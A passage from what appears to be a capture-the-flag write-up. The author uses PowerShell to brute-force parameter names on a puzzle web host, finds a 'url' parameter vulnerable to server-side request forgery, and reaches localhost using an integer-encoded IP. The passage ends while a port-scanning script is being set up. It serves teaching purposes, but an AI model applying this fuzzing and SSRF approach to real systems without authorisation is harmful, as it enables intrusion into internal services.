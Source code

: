Once we created the help function we simply take all the parameter names and call the function with all of them trying to figure out if we can change something. 

```powershell
get-content .\burp-parameter-names.txt | % { .\ps_admin_test_params_verbose.ps1 $_ "1" }
```

We got lucky and we can notice that calling /Interdum-love/test.php?url=1 really returns 200 without any content. So now we know the parameter that we should use. The problem is we do not understand what it is. Name "url" is a hint but it won't reveal itself too soon. After changing the parameter back and forth we can notice that it accepts numbers and number:number notations. Maybe they are IP addresses and ports? As I could not give 127.0.0.1 and I did not know that I can use 0 as an IP address I googled a bit and found a way to translate ip addresses to int. I created script called ps_ipmask_to_int.ps1.

```powershell
[cmdletbinding()]
Param(
	[string]$p1,
	[string]$p2,
	[string]$p3,
	[string]$p4)


	[string]$sip = ($p1+"."+$p2+"."+$p3+"."+$p4)
	[IPAddress]$ip = $sip
	$bytes = $ip.GetAddressBytes()
	
	if ([BitConverter]::IsLittleEndian) {
		[Array]::Reverse($bytes)
	}
	
	[BitConverter]::ToUInt32($bytes, 0)
```

By running the script with parameters 127 0 0 1 I get 2130706433 for the localhost and by changing the port to the 80 I can make an attempt. 

```powershell
invoke-webrequest http://admin/Interdum-love/test.php?url=2130706433:80 -UseBasicParsing
```

After that I get the puzzle frontpage as a response. After that I tried to continue with the 8021 port that I found earlier with no luck. Back to brute forcing it is. What would be the correct port as I haven't found any other IP addresses? PowerShell to the rescue. First we need a script that we use to make the actual call. We take the ps_admin_test_params_verbose and make non-verbose version of it that recognizes if the content length changes.

```powershell
[cmdletbinding()]
Param(
	[string]$p,
	[string]$p2 = "true")
$res = ""
$virhe = ""

$Headers = @{
	Host = "admin"
}

try { 
	$res = Invoke-WebRequest ("http://admin/Interdum-love/test.php?"+$p+"="+$p2) -UseBasicParsing -Headers $Headers
}
catch { 
	$virhe = $_.ErrorDetails
	$res = $_.Exception.Response 
}
```